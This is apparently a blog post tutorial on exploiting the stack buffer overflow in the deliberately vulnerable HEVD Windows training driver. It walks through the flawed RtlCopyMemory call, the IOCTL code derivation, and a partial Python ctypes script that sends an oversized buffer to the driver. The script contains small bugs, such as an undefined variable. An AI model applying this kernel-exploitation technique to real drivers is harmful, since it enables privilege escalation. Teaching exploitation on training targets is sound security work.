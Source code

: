 ```yaml
---
layout: post
title: "HEVD: Stack Overflow exploitation"
date: 2022-01-04 09:00:00 +0100
categories: [HEVD, Stack Overflow]
tags: [exploit, driver, x86, shellcode, kernel exploitation]
---
```



## <span class="myheader">Loading HEVD driver</span>

In this post we will be exploiting the Stack Overflow vulnerability in the [HEVD](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver) driver. Before that, I recommend to read the previous blogpost where I explain some basic concepts.

To load the driver, we download first the pre-built executable from [here](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/releases) (or build it from source if you have too much time). Then, we download and run the [OSR Driver Loader](https://www.osronline.com/article.cfm%5earticle=157.htm) to load the driver in the debugee:

![OSR tool](/assets/img/osr_tool.png)
_OSR Driver Loader_

If all went well, we should see a new driver in the list of loaded modules:

![HEVD loaded](/assets/img/windbg_loaded_hevd.png)
_HEVD loaded in the debugee_

Red line marks memory address where the driver was loaded.


## <span class="myheader">Vulnerability</span>

Vulnerability exists in the [BufferOverflowStack.c](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/master/Driver/HEVD/Windows/BufferOverflowStack.c) file, in the <code>TriggerBufferOverflowStack</code> function:

```c
#ifdef SECURE
        //
        // Secure Note: This is secure because the developer is passing a size
        // equal to size of KernelBuffer to RtlCopyMemory()/memcpy(). Hence,
        // there will be no overflow
        //

        RtlCopyMemory((PVOID)KernelBuffer, UserBuffer, sizeof(KernelBuffer));
#else
        DbgPrint("[+] Triggering Buffer Overflow in Stack\n");

        //
        // Vulnerability Note: This is a vanilla Stack based Overflow vulnerability
        // because the developer is passing the user supplied size directly to
        // RtlCopyMemory()/memcpy() without validating if the size is greater or
        // equal to the size of KernelBuffer
        //

        RtlCopyMemory((PVOID)KernelBuffer, UserBuffer, Size);
```

Inspecting <code>else</code> condition, we notice that the <code>RtlCopyMemory</code> function copies full length of the supplied <code>UserBuffer</code> to the <code>KernelBuffer</code> leading to the stack buffer overflow vulnerability, as we are able to overwrite information on the stack and diverge the code execution from a current path to e.g. a shellcode. <code>Size</code> argument is not validated in any way and is equal to the size of the user supplied data:

```c
Size = IrpSp->Parameters.DeviceIoControl.InputBufferLength;
```

In the <code>SECURE</code> version, this is taken care of as max length of the copied data is not larger than the <code>KernelBuffer</code> itself as specified by the <code>sizeof</code> operator. 

## <span class="myheader">Exploitation</span>

To exploit this vulnerability we need to make the driver code follow the correct execution flow and reach the vulnerable code. Below we can observe in IDA Pro what is the path we need to take:

![IDA Stack BO path](/assets/img/ida_stackbo_path.png)
*stack buffer overflow path in IDA Pro*

<code>DriverEntry</code> is the first piece of code called after a driver is loaded. In the code there is also <code>IrpDeviceIoCtlHandler</code> function defined that handles incoming IOCTL control codes inside IRP packets.
Based on the information in the packet, function will redirect execution to the appropriate IOCTL handler - <code>BufferOverflowStackIoCtlHandler</code> in this case - which is a wrapper for <code>TriggerBufferOverflowStack</code> that contains the vulnerable code as described in the 'Vulnerability' section above.

Our next task is to determine what IOCTL needs to be send to trigger the vulnerability.

### <span class="myheader">IOCTL</span>

Let's have a look at the source code first.
<br>
<code>IrpDeviceIoCtlHandler</code> function uses *switch* statement to transfer control to a correct handler, depending on the IOCTL received:

![IrpDeviceIoCtlHandler source code](/assets/img/code_IrpDeviceIoCtlHandler.png)
*source code of the IrpDeviceIoCtlHandler*

Driver will execute the <code>BufferOverflowStackIoctlHandler</code> function, in case of *HEVD_IOCTL_BUFFER_OVERFLOW_STACK* value in the switch statement. *HEVD_IOCTL_BUFFER_OVERFLOW_STACK* is a macro that corresponds to the IOCTL with 0x800 function code in it. So in order to trigger the vulnerability, we need to use 0x800 in the IOCTL creation. Other IOCTL sections are constant: *FILE_DEVICE_UNKNOWN, METHOD_NEITHER, FILE_ANY_ACCESS*

![IOCTL definitions](/assets/img/code_IOCTL_definitions.png)
*IOCTL definitions*

This is how the disassembled <code>IrpDeviceIoCtlHandler</code> function code looks in IDA:

![IrpDeviceIoCtlHandler](/assets/img/ida_stackbo_flow.png)
*switch statement and IOCTL handler*

<code>0x222003</code> is deducted from the IOCTL value held in ECX and the result is loaded into EAX register (1). If the difference is larger than <code>0x6C</code>, program jumps to a different part of code to return *"[-] Invalid IOCTL Code: "* message. It means there are 109 possible IOCTL codes that will be accepted by the program, in the range <code>0x222003 - 0x22206f</code>.

<br>

If the difference is smaller or equal to <code>0x6C</code>, the IOCTL is used in the *jmp* instruction to jump to the correct offset from the jump table (2). In the bottom of the picture, we see code at one of the offsets that calls <code>BufferOverflowStackIoctlHandler</code>(3).

<br>

To create IOCTLs, we can use online IOCTL decoder [^1] and provide all values in the given range to see which ones fit our needs. If we put the first value, 0x222003, we see that this is the correct IOCTL to trigger stack buffer overflow:

![Online IOCTL decoder](/assets/img/online_ioctl_decoder.png)
*online IOCTL decoder*

We can also create IOCTL values from scratch with some Python code. To do that, we need look up hex values of the IOCTL constants (e.g. [here](https://github.com/tandasat/WinIoCtlDecoder/blob/master/plugins/WinIoCtlDecoder.py)): 
+ FILE_DEVICE_UNKNOWN = 0x22 
+ METHOD_NEITHER = 0x3
+ FILE_ANY_ACCESS = 0x0

From the [Primer](https://wojtekgoo.github.io/posts/A_Primer_On_Windows_Drivers/#fnref:4) we know that wer have to move *Device Type* to the 16th bit, *Required Access* to the 14th bit, *Function Code* to 2nd and *Transfer Type* to the end:

```python
ioctl = hex((0x22 << 16) | (0x0 << 14) | (0x800 << 2) | 0x3)
```

### <span class="myheader">Exploit code</span>

With all the relevant information needed to trigger the vulnerability, we can build exploit. To develop exploit we will use <code>ctypes</code> library that allow Python code to call C functions and enable low-level memory manipulation.
<br>
To communicate, we need first to open a handle from userland to the target device using <code>CreateFile</code> API[^1], putting instead of file name name of the HEVD device, which we can get e.g. from the WinObj tool.

![Name of HEVD device](/assets/img/winobj_nameOfHevdDevice.png)
*device name in WinObj tool*

To send and receive messages to and from kernel driver, we can use <code>DeviceIoControl</code> API. Before we do that, we need to create proper IOCTL that will be dissected and understood by the HEVD device. We can use for that 

```python
import ctypes, sys, struct
from ctypes import *
from subprocess import *

kernel32 = windll.kernel32

# open handle to the device
hevd = kernel32.CreateFileW(
    "\\\\.\\HackSysExtremeVulnerableDriver",    # file name
    0xC0000000,     # access: GENERIC READ | GENERIC WRITE, bits 30 and 31 are set
    0,                                          
    None,
    0x3,            # action to take on a device: OPEN EXISTING 
    0,
    None
)
    
if (not hevd) or (hevd == -1):
    print("[-] Failed to retrieve handle: " + str(GetLastError()))
    sys.exit(1)

# malicious payload
payload = "\x41" * 3000
payload_size = len(buf)

# send message to the device
kernel32.DeviceIoControl(
    hevd,               # device handle
    0x222003,           # IOCTL
    payload,            
    payload_size,       
    None,
    0,
    None,
    byref(c_ulong(),
    None
)

```



## <span class="myheader">References<span>

[^1]: https://www.osronline.com/article.cfm%5earticle=229.htm
[^2]: https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilew